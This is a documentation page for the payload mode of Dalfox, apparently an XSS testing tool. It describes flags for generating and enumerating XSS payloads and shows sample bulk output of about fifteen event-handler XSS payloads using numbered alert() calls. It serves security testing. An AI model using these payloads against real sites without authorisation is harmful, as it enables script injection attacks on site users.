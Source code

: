 ```yaml
---
title: Payload Mode
redirect_from: /docs/modes/payload-mode/
has_children: false
parent: Usage
nav_order: 5
toc: true
layout: page
---
```


`payload` mode is a mode for easy testing of XSS. Generate and Enumerate XSS Payloads and wordlists

```
dalfox payload {flags}
```

e.g
```
dalfox payload --enum-injs --entity-event-handler"
```

## Make-Bulk
Make-bulk generates many xss payloads. At this point, the parameters of the alert are configured as sequence and it is easy to find which payload was triggered during the XSS test.
```
dalfox payload --make-bulk
```
output
```
...snip...
<track onbeforepaste=\"alert(488)\" contenteditable>test<\/track>
<tt onbeforepaste=\"alert(489)\" contenteditable>test<\/tt>
<u onbeforepaste=\"alert(490)\" contenteditable>test<\/u>
<ul onbeforepaste=\"alert(491)\" contenteditable>test<\/ul>
<var onbeforepaste=\"alert(492)\" contenteditable>test<\/var>
<video onbeforepaste=\"alert(493)\" contenteditable>test<\/video>
<wbr onbeforepaste=\"alert(494)\" contenteditable>test<\/wbr>
<xmp onbeforepaste=\"alert(495)\" contenteditable>test<\/xmp>
<body onbeforeprint=alert(496)>
<svg><path><animateMotion onbegin=alert(497) dur=\"1s\" repeatCount=\"1\">
<svg><animatetransform onbegin=alert(498) attributeName=transform>
<svg><set onbegin=alert(499) attributename=x dur=1s>
<svg><animate onbegin=alert(500) attributeName=x dur=1s>
<input onblur=alert(501) id=x><input autofocus>
<textarea onblur=alert(502) id=x><\/textarea><input autofocus>
...snip...
```

## Encoder
```
--encoder-url            Encoding output [URL]
```

## Supported
```
--entity-event-handler   Enumerate a event handlers for xss
--entity-gf              Enumerate a gf-patterns xss params
--entity-special-chars   Enumerate a special chars for xss
--entity-useful-tags     Enumerate a useful tags for xss
--enum-attr              Enumerate a in-attr xss payloads
--enum-common            Enumerate a common xss payloads
--enum-html              Enumerate a in-html xss payloads
--enum-injs              Enumerate a in-js xss payloads
--make-bulk              Make bulk payloads for stored xss
--remote-payloadbox      Enumerate a payloadbox's xss payloads
--remote-portswigger     Enumerate a portswigger xss cheatsheet payloads
```

## Screenshots
![1414](https://user-images.githubusercontent.com/13212227/120361642-0b9e1000-c345-11eb-8283-9c0b7fdac8b3.jpg)
